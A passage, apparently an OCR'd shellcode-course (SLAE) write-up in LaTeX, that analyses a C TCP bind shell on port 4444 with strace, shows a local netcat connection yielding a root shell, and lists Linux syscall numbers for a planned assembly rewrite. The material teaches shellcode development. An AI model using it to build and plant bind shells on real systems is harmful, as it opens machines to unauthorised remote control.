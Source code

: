 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
root@blahblah:~# nc -nv 127.0.0.1 4444 (UNKNOWN) [127.0.0.1] 4444 (?)
open id uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}

Perfect! We have a tcp bind shell connection. Now we have to convert
this to assembly\ldots{}

\subsection{Analysis of the C program}
\label{sec-1-5}

We can use a tool called \verb~strace~ to help us learn more about what system calls
our bind shell c program is making. Running \verb~strace ./bindshell~, connecting
to the bindshell with \verb~nc -nv 127.0.0.1 4444~ and filtering out the noise
we will see:

\begin{verbatim}
root@blahblah:~/shared/SLAE/slae/exercise1# strace ./bindshell
execve("./bindshell", ["./bindshell"], [/* 41 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3,
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/sh", [0], [/* 0 vars */])  = 0
\end{verbatim}

Ok. It looks like our code makes some system calls that seem to align with the
functions we know to be part of our socket programming formula along with the
stdin, stdout, and stderror redirection and our \verb~execve~ call to run /bin/sh.

Lets lookup the system calls to find out their system call numbers. We will
consult \verb~/usr/include/i386-linux-gnu/asm/unistd_32.h~ for these numbers\ldots{}

When we consult the listing of syscalls we encounter a bit of confusion. The
only system calls that seem to closely match up with what we saw in our strace
are:

\begin{verbatim}
#define __NR_execve 11
#define __NR_dup2 63
#define __NR_socketcall 102
#define __NR_mbind 274
\end{verbatim}

This is strange. \verb~execve~ and \verb~dup2~ look good but there doesn't seem to be
any syscall numbers for socket,listen, or accept. socketcall seems a bit odd
as does mbind so we will have to look into this.
\end{document}
